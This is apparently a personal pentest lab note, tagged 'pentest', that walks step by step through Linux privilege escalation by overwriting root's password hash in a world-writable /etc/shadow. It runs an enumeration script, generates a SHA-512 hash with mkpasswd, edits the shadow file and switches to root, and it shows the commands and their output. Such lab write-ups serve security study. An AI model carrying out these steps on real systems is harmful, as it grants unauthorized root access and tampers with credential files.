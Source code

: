 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Check the permissions of the /etc /shadow file:
2. 
3.  ![[Pasted image 20211230133000.png]]


```bash - target
./lse.sh -l 1 -i | more
```

```bash - target
ls -l /etc/shadow
```

>-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

Note that it is world writable.

2. Copy / save the contents of /etc/shadow so we can restore it later.

3. Generate a new SHA-512 password hash:

```bash - kali
mkpasswd -m sha-512 newpassword
```

```bash - kali
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s

password hash with the one we generated.

```bash - target
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user,

entering the new password when prompted:

```bash - target
su
```

```bash - target
newpassword
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)












